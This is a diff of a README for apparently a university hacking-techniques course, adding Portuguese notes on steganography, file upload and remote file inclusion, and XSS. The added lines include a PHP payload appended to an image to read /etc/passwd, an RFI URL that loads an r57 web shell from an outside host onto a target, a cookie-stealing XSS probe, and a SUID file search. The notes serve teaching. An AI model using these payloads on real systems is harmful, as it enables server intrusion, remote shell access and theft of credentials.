

Before and after one commit to leonardodma/teckHack, a Markdown page: part2/README.md, 2 parts joined by grey strips. Shown at 99% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/part2/README.md
+++ b/part2/README.md
@@ -16,6 +16,24 @@ Roteiros e Resumo da disciplina Tecnologias Hacker
 - Detectar se uma mensagem foi alterada durante a transmissão
 - Possibilitar que o destinatário identifique o remetente da mensagem
 - Assinatura Digital
+
+## ESTEGNOGRAFIA
+
+Esteganografia é uma técnica que consiste em esconder um arquivo dentro do outro, de forma criptografada.
+
+- steghide (comando para aplicar uma Estegnografia): suporte para jpeg, bmp, wav e au.
+
+Embedar um arquivo em uma imagem:
+
+```cmd
+steghide embed -cf IMAGEM -ef TEXTO
+```
+
+Extrair arquivo de uma imagem
+
+```cmd
+steghide extract -sf ARQUIVO
+```
 
 ### Exemplos de algorítimo
 
@@ -93,7 +165,48 @@ https://www.exploit-db.com/google-hacking-database
+Passar metadados para o arquivo: comando para observar o arquivo de passwd de uma servidor
+
+```cmd
+echo "<?php system('cat /etc/passwd'); ?>" >> aula.png
+```
+
+Com o RFI também é possível fazer injeção de Shells para execução de comandos dentro do servidor:
+
+```cmd
+http://IPALVO/index.php?page=https://57.webshellarchive.org/r57.txt
+```
+
+## XSS (Reflected and Stored)
+
+- Reflected: não fica salvo para todos os usuários
+- Stored: Permanece para os outros usuários
+
+Uma maneira de rodar comandos dentro de um servidor vulnerável. É possível inserir scripts em inputs, se não for feito a sanetização correta.
+
+```cmd
+<script>alert(document.cookie)</script>
+```
+
 ## Comandos importantes
 
-Listar diretórios de uma site
+Listar diretórios de um site
 
 ```cmd
 wget --spider -r --no-parent www.insper.edu.br
 ```
+
+Utilizar o comando find para encontrar as flags
+
+```cmd
+find / -user flag -perm -u=s 2>/dev/null
+```
+
+```cmd
+find ~/ -type f -name "*.py"
+```
+
+## Clientes importantes
+
+- porta ftp: https://www.makeuseof.com/best-ftp-clients-for-linux/ (FileZila)
+
+- porta smb: No Gerenciados de Arquivos (Files), ir em:
+  - Other Locations
+  - Em `connect to server` digitar: smb://{ip_alvo}
````
Also changed, not shown: other parts of part2/README.md (+55 -1 lines), resumo.md (added, +338 -0 lines), part2/aula.png (added), part2/images.jpeg (added), 2 other files.
